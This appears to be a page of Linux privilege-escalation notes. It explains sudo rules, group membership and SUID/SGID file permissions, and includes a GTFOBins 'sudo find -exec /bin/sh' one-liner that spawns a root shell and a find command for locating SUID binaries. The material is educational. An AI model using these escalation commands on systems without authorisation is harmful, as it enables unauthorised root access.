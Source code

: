 # Root

 - [User Permissions](Root.md#user-permissions)
 - [File Permissions](Root.md#file-permissions)

## User Permissions

```
Command Breakdown:
    sudo: Super user do
    -l: List the allowed permissions
```

```console
user@parrot:~$ sudo -l
Matching Defaults entries for user on parrot:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on parrot:
    (ALL) NOPASSWD: ALL
```

This is an example of the worst configuration for the sudo permissions;  
with this configuration, you can sudo anything without needing a password.

There are other configurations you're more likely to see,  
like specifying only being allowed to sudo a specific command,  
or using a command in a specific directory. 

### Groups

```console
user@parrot:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

Checking `id`, you can see what groups you're in and the respective ID's.  
If you're given a group membership that you shouldn't have,  
you could be given privileges equivalent of root for a command.

### GTFOBins

```console
user@parrot:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Given sudo privileges of a random command and don't know how to get root with it?  
[GTFOBins](https://gtfobins.github.io/) is a great list of binaries and their strange security bypasses.

## File Permissions

```console
user@parrot:~$ ls -l /bin/wget
-rwxr-xr-x 1 root root 536128 Oct 26  2019 /bin/wget
```
Each file has permissions broken into three triads  
followed by the user that owns the file and the group the file belongs to.

| Owner | Group | World | Owner | Group |
|:-----:|:-----:|:-----:|:-----:|:-----:|
| r w x | r - x | r - x | Root  | Root  |

Each triad is then broken down into the individual permissions
 - `r` if reading is permitted, `-` if it is not
 - `w` if writing is permitted, `-` if it is not
 - `x` if executing is permitted, `-` if it is not

### Set User ID (SUID) and Set Group ID (SGID)
Whenever you execute a binary with either mode set, you're effectively executing it as the file's owner or a member of the file's group.  
The best example of this SUID permission is the `passwd` binary.

```console
user@parrot:~$ ls -l /bin/passwd
-rwsr-xr-x 1 root root 63960 Feb  7 08:54 /bin/passwd
```

Represented by the `s` in place of the owner execution `x`, we can find that those binaries have SUID enabled;  
this is what allows you to change your password in the `/etc/shadow` without root privileges.  

When you're looking for root privilege escalation, you might want to search for files that have one of these special permissions.  
Luckily, we can specify file permissions in the `find` command.

```
Command Breakdown:
    find: Search for files in a directory
    /bin/: The directory to search through
    -perm /u=s,g=s: Specifies to look for files with either SUID or SGID in that order
```

```console
user@parrot:~$ find /bin/ -perm /u=s,g=s
/bin/wall
/bin/newgrp
/bin/su
/bin/sudo
/bin/mount
/bin/umount
...
```
